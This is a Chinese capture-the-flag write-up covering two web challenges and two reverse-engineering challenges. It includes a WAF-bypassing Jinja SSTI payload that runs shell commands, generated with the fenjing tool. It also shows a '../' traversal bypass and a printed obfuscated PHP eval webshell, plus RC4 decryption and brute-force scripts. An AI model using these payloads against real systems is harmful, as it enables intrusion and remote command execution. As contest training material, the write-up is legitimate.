







# 第十八届信息安全大赛 && 第二届长城杯  - web&re  wp-先知社区

> **来源**: https://xz.aliyun.com/news/16192  
> **文章ID**: 16192

---

# web

## Safe\_Proxy

源码：

```
from flask import Flask, request, render_template_string
import socket
import threading
import html

app = Flask(__name__)


@app.route('/', methods=["GET"])
def source():
    with open(__file__, 'r', encoding='utf-8') as f:
        return '<pre>' + html.escape(f.read()) + '</pre>'


@app.route('/', methods=["POST"])
def template():
    template_code = request.form.get("code")
    # 安全过滤
    blacklist = ['__', 'import', 'os', 'sys', 'eval', 'subprocess', 'popen', 'system', '\r', '\n']
    for black in blacklist:
        if black in template_code:
            return "Forbidden content detected!"
    result = render_template_string(template_code)
    print(result)
    return 'ok' if result is not None else 'error'


class HTTPProxyHandler:
    def __init__(self, target_host, target_port):
        self.target_host = target_host
        self.target_port = target_port

    def handle_request(self, client_socket):
        try:
            request_data = b""
            while True:
                chunk = client_socket.recv(4096)
                request_data += chunk
                if len(chunk) < 4096:
                    break

            if not request_data:
                client_socket.close()
                return

            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as proxy_socket:
                proxy_socket.connect((self.target_host, self.target_port))
                proxy_socket.sendall(request_data)

                response_data = b""
                while True:
                    chunk = proxy_socket.recv(4096)
                    if not chunk:
                        break
                    response_data += chunk

            header_end = response_data.rfind(b"\r\n\r\n")
            if header_end != -1:
                body = response_data[header_end + 4:]
            else:
                body = response_data

            response_body = body
            response = b"HTTP/1.1 200 OK\r\n" \
                       b"Content-Length: " + str(len(response_body)).encode() + b"\r\n" \
                                                                                b"Content-Type: text/html; charset=utf-8\r\n" \
                                                                                b"\r\n" + response_body

            client_socket.sendall(response)
        except Exception as e:
            print(f"Proxy Error: {e}")
        finally:
            client_socket.close()


def start_proxy_server(host, port, target_host, target_port):
    proxy_handler = HTTPProxyHandler(target_host, target_port)
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_socket.bind((host, port))
    server_socket.listen(100)
    print(f"Proxy server is running on {host}:{port} and forwarding to {target_host}:{target_port}...")

    try:
        while True:
            client_socket, addr = server_socket.accept()
            print(f"Connection from {addr}")
            thread = threading.Thread(target=proxy_handler.handle_request, args=(client_socket,))
            thread.daemon = True
            thread.start()
    except KeyboardInterrupt:
        print("Shutting down proxy server...")
    finally:
        server_socket.close()


def run_flask_app():
    app.run(debug=False, host='127.0.0.1', port=5000)


if __name__ == "__main__":
    proxy_host = "0.0.0.0"
    proxy_port = 5001
    target_host = "127.0.0.1"
    target_port = 5000

    # 安全反代，防止针对响应头的攻击
    proxy_thread = threading.Thread(target=start_proxy_server, args=(proxy_host, proxy_port, target_host, target_port))
    proxy_thread.daemon = True
    proxy_thread.start()

    print("Starting Flask app...")
    run_flask_app()
```

根据源码可以知道这个是ssti无回显注入

对于无回显有两种方法：内存马和写文件和反弹shell，这里节约时间就用写文件

这里用一个python脚本绕过waf

```
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str): # 如果字符串s可以通过waf则返回True, 否则返回False
    dangerous_patterns = ['__', 'import', 'os', 'sys', 'eval', 'subprocess', 'popen', 'system', '\r', '\n']
    for pattern in dangerous_patterns:
        if pattern in s:
            # print("Dangerous pattern found:", pattern)
            return False
    return True

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "cat /flag>>app.py")
    # config_payload = config_payload(waf)

    print(shell_payload)
    # print(f"{config_payload=}")
```

生成出来，把执行的命令写入到/目录下面进行回显

```
{{g.pop[gl][bu][im](ey)['p''open']('cat /flag>>app.py').read()}}
```





## hello\_web



这里一直读不到hackme，后面测试了很久，发现过滤了../，可以双写绕过


成功读到源码：

```
<?php
highlight_file(__FILE__);
$lJbGIY="eQOLlCmTYhVJUnRAobPSvjrFzWZycHXfdaukqGgwNptIBKiDsxME";$OlWYMv="zqBZkOuwUaTKFXRfLgmvchbipYdNyAGsIWVEQnxjDPoHStCMJrel";$lapUCm=urldecode("%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A");
$YwzIst=$lapUCm{3}.$lapUCm{6}.$lapUCm{33}.$lapUCm{30};$OxirhK=$lapUCm{33}.$lapUCm{10}.$lapUCm{24}.$lapUCm{10}.$lapUCm{24};$YpAUWC=$OxirhK{0}.$lapUCm{18}.$lapUCm{3}.$OxirhK{0}.$OxirhK{1}.$lapUCm{24};$rVkKjU=$lapUCm{7}.$lapUCm{13};$YwzIst.=$lapUCm{22}.$lapUCm{36}.$lapUCm{29}.$lapUCm{26}.$lapUCm{30}.$lapUCm{32}.$lapUCm{35}.$lapUCm{26}.$lapUCm{30};eval($YwzIst("JHVXY2RhQT0iZVFPTGxDbVRZaFZKVW5SQW9iUFN2anJGeldaeWNIWGZkYXVrcUdnd05wdElCS2lEc3hNRXpxQlprT3V3VWFUS0ZYUmZMZ212Y2hiaXBZZE55QUdzSVdWRVFueGpEUG9IU3RDTUpyZWxtTTlqV0FmeHFuVDJVWWpMS2k5cXcxREZZTkloZ1lSc0RoVVZCd0VYR3ZFN0hNOCtPeD09IjtldmFsKCc/PicuJFl3eklzdCgkT3hpcmhLKCRZcEFVV0MoJHVXY2RhQSwkclZrS2pVKjIpLCRZcEFVV0MoJHVXY2RhQSwkclZrS2pVLCRyVmtLalUpLCRZcEFVV0MoJHVXY2RhQSwwLCRyVmtLalUpKSkpOw=="));
?>
```

base64解码这一段：

```
JHVXY2RhQT0iZVFPTGxDbVRZaFZKVW5SQW9iUFN2anJGeldaeWNIWGZkYXVrcUdnd05wdElCS2lEc3hNRXpxQlprT3V3VWFUS0ZYUmZMZ212Y2hiaXBZZE55QUdzSVdWRVFueGpEUG9IU3RDTUpyZWxtTTlqV0FmeHFuVDJVWWpMS2k5cXcxREZZTkloZ1lSc0RoVVZCd0VYR3ZFN0hNOCtPeD09IjtldmFsKCc/PicuJFl3eklzdCgkT3hpcmhLKCRZcEFVV0MoJHVXY2RhQSwkclZrS2pVKjIpLCRZcEFVV0MoJHVXY2RhQSwkclZrS2pVLCRyVmtLalUpLCRZcEFVV0MoJHVXY2RhQSwwLCRyVmtLalUpKSkpOw==
```

```
$uWcdaA="eQOLlCmTYhVJUnRAobPSvjrFzWZycHXfdaukqGgwNptIBKiDsxMEzqBZkOuwUaTKFXRfLgmvchbipYdNyAGsIWVEQnxjDPoHStCMJrelmM9jWAfxqnT2UYjLKi9qw1DFYNIhgYRsDhUVBwEXGvE7HM8+Ox==";eval('?>'.$YwzIst($OxirhK($YpAUWC($uWcdaA,$rVkKjU*2),$YpAUWC($uWcdaA,$rVkKjU,$rVkKjU),$YpAUWC($uWcdaA,0,$rVkKjU))));
```

直接echo出来就行了

```
<?php
//highlight_file(__FILE__);
$lJbGIY="eQOLlCmTYhVJUnRAobPSvjrFzWZycHXfdaukqGgwNptIBKiDsxME";
$OlWYMv="zqBZkOuwUaTKFXRfLgmvchbipYdNyAGsIWVEQnxjDPoHStCMJrel";
$lapUCm=urldecode("%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A");
$YwzIst=$lapUCm{3}.$lapUCm{6}.$lapUCm{33}.$lapUCm{30};
$OxirhK=$lapUCm{33}.$lapUCm{10}.$lapUCm{24}.$lapUCm{10}.$lapUCm{24};
$YpAUWC=$OxirhK{0}.$lapUCm{18}.$lapUCm{3}.$OxirhK{0}.$OxirhK{1}.$lapUCm{24};
$rVkKjU=$lapUCm{7}.$lapUCm{13};
$YwzIst.=$lapUCm{22}.$lapUCm{36}.$lapUCm{29}.$lapUCm{26}.$lapUCm{30}.$lapUCm{32}.$lapUCm{35}.$lapUCm{26}.$lapUCm{30};
//eval($YwzIst("JHVXY2RhQT0iZVFPTGxDbVRZaFZKVW5SQW9iUFN2anJGeldaeWNIWGZkYXVrcUdnd05wdElCS2lEc3hNRXpxQlprT3V3VWFUS0ZYUmZMZ212Y2hiaXBZZE55QUdzSVdWRVFueGpEUG9IU3RDTUpyZWxtTTlqV0FmeHFuVDJVWWpMS2k5cXcxREZZTkloZ1lSc0RoVVZCd0VYR3ZFN0hNOCtPeD09IjtldmFsKCc/PicuJFl3eklzdCgkT3hpcmhLKCRZcEFVV0MoJHVXY2RhQSwkclZrS2pVKjIpLCRZcEFVV0MoJHVXY2RhQSwkclZrS2pVLCRyVmtLalUpLCRZcEFVV0MoJHVXY2RhQSwwLCRyVmtLalUpKSkpOw=="));
echo $YwzIst;
$uWcdaA="eQOLlCmTYhVJUnRAobPSvjrFzWZycHXfdaukqGgwNptIBKiDsxMEzqBZkOuwUaTKFXRfLgmvchbipYdNyAGsIWVEQnxjDPoHStCMJrelmM9jWAfxqnT2UYjLKi9qw1DFYNIhgYRsDhUVBwEXGvE7HM8+Ox==";
echo '?>'.$YwzIst($OxirhK($YpAUWC($uWcdaA,$rVkKjU*2),$YpAUWC($uWcdaA,$rVkKjU,$rVkKjU),$YpAUWC($uWcdaA,0,$rVkKjU)));
?>
```

获得一句话木马的密码



需要绕过下划线

蚁剑连接一下

经过翻看成功在/run/log下翻到



# re

## ezCsky

百度成功找到了这个程序的汇编查看方式:[MotoFanRu/M-CORE\_IDA-Pro: M·CORE processor support module for IDA Pro](https://github.com/MotoFanRu/M-CORE_IDA-Pro/tree/master)  
直接在ida里面看汇编:



发现加密逻辑很清楚:check的异或后面就是rc4  
直接在ida里面找key和密文:

```
.text:00008958 $d_13:          .ascii "testkey",0      // DATA XREF: main+E↑r
.text:00008958                                         // main+12↑r

.rodata:00008AA0 dword_8AA0:     .long 0x8B88F96         // DATA XREF: main+1A↑r
.rodata:00008AA0                                         // .text:off_8960↑o
.rodata:00008AA4                 .long 0x4468A75D
.rodata:00008AA8                 .long 0x649264F2
.rodata:00008AAC                 .long 0xE6787A42
.rodata:00008AB0                 .long 0xB878C2EA
.rodata:00008AB4                 .long 0x3D5B9E63
.rodata:00008AB8                 .long 0xC83F28D9
.rodata:00008ABC                 .long 0x6BEE0673
.rodata:00008AC0                 .long 0xA34B0C8D
.rodata:00008AC4                 .long 0x40CAAE23
.rodata:00008AC8                 .short 0xD1ED

```

直接就可以搓脚本:

```
def rc4(key, data):
    S = list(range(256))
    j = 0
    key_length = len(key)

    for i in range(256):
        j = (j + S[i] + key[i % key_length]) % 256
        S[i], S[j] = S[j], S[i]

    i = 0
    j = 0
    result = []
    for byte in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        K = S[(S[i] + S[j]) % 256]
        result.append(byte ^ K)

    return bytes(result)


def unxor(data):
    data = bytearray(data)
    for i in range(len(data) - 1, 0, -1):
        data[i - 1] ^= data[i]
    return bytes(data)


def main():
    key = b"testkey"
    enc = [
    150, 143, 184,   8,  93, 167, 104,  68, 242, 100, 
    146, 100,  66, 122, 120, 230, 234, 194, 120, 184, 
    99, 158,  91,  61, 217,  40,  63, 200, 115,   6, 
    238, 107, 141,  12,  75, 163,  35, 174, 202,  64, 
    237, 209
    ]

    decrypted = rc4(key, enc)
    final_result = unxor(decrypted)

    print(f"解密结果：{final_result}")


if __name__ == "__main__":
    main()

```

## dump



动态调试发现这里会输出字符串,所以加密后的数据会从这里输出  
伪代码过于复杂了,尝试手动测试flag!  
发现是单字节加密,每次输入正确前几个字符flag,发现数据和flag文件的数据相同

```
PS D:\> .\re.exe f
PS D:\> .\re.exe fl
2329
PS D:\> .\re.exe fla
23291e
PS D:\> .\re.exe flag
23291e24

```

直接就可以开始爆破了

```
import subprocess
from string import printable

ENCRYPTED_VALUES = [35, 41, 30, 36, 56, 14, 21, 32, 55, 14, 5, 32, 0, 14, 55, 18, 29, 15, 36, 1, 1, 57]

def brute_force_flag(start_flag='flag{', start_index=5, max_length=22):
    flag = start_flag
    for idx in range(start_index, max_length):
        for char in printable:
            output = subprocess.run(['re.exe', flag + char], capture_output=True, text=True).stdout.strip()
            try:
                if int(output[idx * 2:idx * 2 + 2], 16) == ENCRYPTED_VALUES[idx]:
                    flag += char
                    print(f"字符 '{char}' 匹配成功，当前 flag: {flag}")
                    break
            except (IndexError, ValueError):
                continue
        else:
            print(f"无法找到索引 {idx} 处的匹配字符，终止破解。")
            break
    return flag

if __name__ == "__main__":
    final_flag = brute_force_flag()
    print(f"最终 flag: {final_flag}")

```
